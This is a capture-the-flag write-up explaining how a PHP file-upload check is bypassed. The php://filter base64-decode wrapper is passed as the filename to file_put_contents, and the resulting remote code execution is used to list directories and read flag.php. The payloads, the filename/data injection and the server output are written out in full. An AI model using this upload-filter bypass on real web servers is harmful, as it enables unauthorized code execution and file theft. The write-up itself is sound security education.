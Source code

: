 At first I traced through the code and I saw that I have control over data and filename.
This was a classic upload a php file and get RCE using it, but after I tried it I saw there is a pesky check like this:
```
if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
```
Meaning I can't directly try and put php code inside a file.
I then tried to look at the clean_up.php inclusion and tried to create one of my own and confuse the index.php into including my file and running it, which didn't work because I still needed the file that I want to include to be a viable php script, at first I hoped that I can just put plain code without the <?php ?> headers and it will work but I tested and it didn't.

Then I remember something from a previous challenge where I passed something encoded in base64 so it passess input checks so I started researching.
I then looked and data was being passed into an interesting function: file_put_contents()

I tried to look at its documentation if there is some room to play and it took me a while to find but I can pass it a filter and give a source to apply that filter to.
(https://www.php.net/manual/en/function.file-put-contents.php + https://www.php.net/manual/en/wrappers.php.php)
As stated in the documentation, you can pass file_put_contents a stream instead of the normal stuff, and then in the second documentation you can see an example as well:
```file_put_contents("php://filter/write=string.rot13/resource=example.txt","Hello World");``` - applying the filter ROT13 to "Hello World" and putting it into example.txt.
That's exactly what we need.
I used Base64 to encode my payloads and then passed them like this:
```filename=php://filter/convert.base64-decode/resource=payload.php AND data=ENCODED_BASE64_STRING```


I then used different payloads as I got RCE, and I started traversing the server until I found this:

payload:
```
    <?php
    $dir = scandir('../../');
    var_dump($dir);
    ?>
```
Got me this output:
```array(9) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(12) "clean_up.php" [3]=> string(8) "flag.php" [4]=> string(9) "index.php" [5]=> string(12) "php-fpm.sock" [6]=> string(10) "source.php" [7]=> string(7) "uploads" [8]=> string(3) "var" }```

let's get the flag:

payload:
```
    <?php
    $flag = file_get_contents('../../flag.php');
    var_dump($flag);
    ?>
```

output:
```
    string(83)
    <!--?php

    // WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}

    -->
```